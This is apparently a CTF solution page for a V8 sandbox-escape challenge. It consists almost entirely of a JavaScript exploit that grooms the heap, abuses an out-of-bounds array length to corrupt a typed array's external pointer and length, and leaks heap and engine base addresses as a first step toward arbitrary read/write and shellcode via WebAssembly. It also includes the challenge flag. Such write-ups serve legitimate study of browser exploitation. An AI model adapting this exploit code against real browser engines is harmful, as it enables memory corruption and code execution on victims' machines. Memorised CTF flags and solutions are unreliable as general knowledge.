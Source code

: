 
final exploit：

```js
// dice{h0p-rop-pop-y0ur-w@y-out-of-the-sandb0x}
// Utility function
// ref from: https://github.com/Kyle-Kyle/blog/blob/master/writeups/dice22_memory_hole/pwn.js
let hex = (val) => '0x' + val.toString(16);
let info = (name, value) => console.log("[*] " + name + ": " + hex(value));
function gc() {
    for (let i = 0; i < 0x10; i++) new ArrayBuffer(0x1000000);
}

// used for stable fake JSValue crafting
function js_heap_defragment() { // used for stable fake JSValue crafting
    gc();
    for (let i = 0; i < 0x1000; i++) new ArrayBuffer(0x10);
}

// for data type translation
_buf = new ArrayBuffer(0x8);
u64 = new BigUint64Array(_buf);
f64 = new Float64Array(_buf);
u32 = new Uint32Array(_buf);

function ftoi(val) {
    f64[0] = val;
    return u64[0];
}

function itof(val) {
    u64[0] = val;
    return f64[0];
}
/////////////////////////////////////////

js_heap_defragment();

var arr = [1.1, 2.2, 3.3]; // use DoubleArray so we can read ptr as float
var victim = new BigUint64Array(0x100);
arr.setLength(100);

// data_ptr = js_base + (external_pointer << 8) + base_pointer
// js_base: saved in the register
// base_pointer: null for TypedArray
// external_pointer: different
//
// we overwrite the external_pointer of victim, make victim read / write data from js_base,
// and the data around js_base has code_base and js_base, we can leak from there

var tmp = ftoi(arr[19]); // get external_pointer and other 4 bytes data
arr[19] = itof( tmp & 0xffffffff00000000n ); // overwrite external_pointer to nil
tmp = ftoi(arr[16]); // get bytes length and other 4 bytes data
arr[16] = itof( (tmp & 0xffffffff00000000n) + 0xfffffff0n ); // overwrite bytes length
tmp = ftoi(arr[17]); // get length and other 4 bytes data
arr[17] = itof( (tmp & 0xffffffffn) + 0x1ffffffe0000000000n ); // overwritelength to 0x1ffffffe

var heap = victim[2];
info('heap', heap);
var js_base = victim[3] - 0x4000n;
info('js_base', js_base);

// wasm which is used to setup aar / aaw and execute our shellcode
var global = new WebAssembly.Global({value:'i64', mutable:true}, 0n);
```